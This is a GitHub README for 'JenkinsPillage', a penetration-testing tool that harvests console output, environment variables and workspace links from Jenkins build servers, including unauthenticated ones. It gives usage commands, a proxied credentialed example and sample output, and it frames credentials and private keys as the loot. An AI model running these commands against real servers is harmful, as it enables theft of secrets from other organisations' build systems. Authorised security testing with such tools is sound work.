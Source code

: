 # JenkinsPillage
This tool will attempt to pull console output, environment variables, and workspaces associated with Jenkins builds. It works both against unauthenticated and authenticated (with creds) servers. 

Typically lots of sensitive information may be retrieveable from these locations and this tool aims to automate the pillaging of that info. Credentials, API endpoints, private keys, and much more have been gathered using JenkinsPillage. 

## Requirements
 - Python3
 - pip3 install requests
 - pip3 install bs4

## Help Info
```
$ ./jenkins-pillage.py --help
usage: jenkins-pillage.py [-h] [-b BUILD_URL] [-u USERNAME] [-p PASSWORD]
                          [-l LIST_URL] [-a AUTO] [-f]

Pillage sensitive information from Jenkins servers

optional arguments:
  -h, --help            show this help message and exit
  -b BUILD_URL, --buildurl BUILD_URL
                        The build URL to pillage
  -u USERNAME, --user USERNAME
                        The Basic Auth username for the service
  -p PASSWORD, --password PASSWORD
                        The Basic Auth password for the service
  -l LIST_URL, --list LIST_URL
                        Lists all found build URLs to use with -b
  -a AUTO, --auto AUTO  Automatically perform -l and then -b on a root URL
  -f, --force           Force the URLs to use the supplied socket (in case the
                        server returns localhost)
```
## Usage
Easy mode:
```
./jenkins-pillage.py -a https://jenkins.example.com
Getting a list of all build URLs
https://jenkins.example.com/job/Application0/4
https://jenkins.example.com/job/Application1/6
Attempting: https://jenkins.example.com/job/Application0/4
-- FOUND CONSOLE OUTPUT
Attempting: https://jenkins.example.com/job/Application1/6
-- FOUND CONSOLE OUTPUT
-- FOUND ENV VARS
...
```

List all build URLs recursed from a top level URL:
```
./jenkins-pillage.py -l https://jenkins.example.com
https://jenkins.example.com/job/Application0/4
https://jenkins.example.com/job/Application1/6
...
```

Pull the console output, workspace zip url, and environment variables of a build recursed from above:
```
./jenkins-pillage.py -b https://jenkins.example.com/job/Application0/4
Attempting: https://jenkins.example.com/job/Application0/4
-- FOUND CONSOLE OUTPUT
-- FOUND ENV VARS
-- FOUND WORKSPACE ZIP URL
```
Same but behind an SSH proxy and needs creds to work:
```
export all_proxy=socks4a://localhost:1080
./jenkins-pillage.py -b https://jenkins.example.com/job/Application0/4 -u admin -p Password1
Attempting: https://jenkins.example.com/job/Application0/4
-- FOUND CONSOLE OUTPUT
-- FOUND ENV VARS
-- FOUND WORKSPACE ZIP URL
```
The files are pulled down to the current directory. The URL for the zip download is placed in a file as opposed to downloading the zip because many of the zips I've seen can easily fill up your hard drive. 

## Caveat
Jenkins has a _lot_ of available plugins that could also house sensitive data. Use this tool as a first step in pillaging Jenkins boxes. This tool is not a substitute for manual review and is considered in beta so YMMV. Pull requests for additional features are welcome.
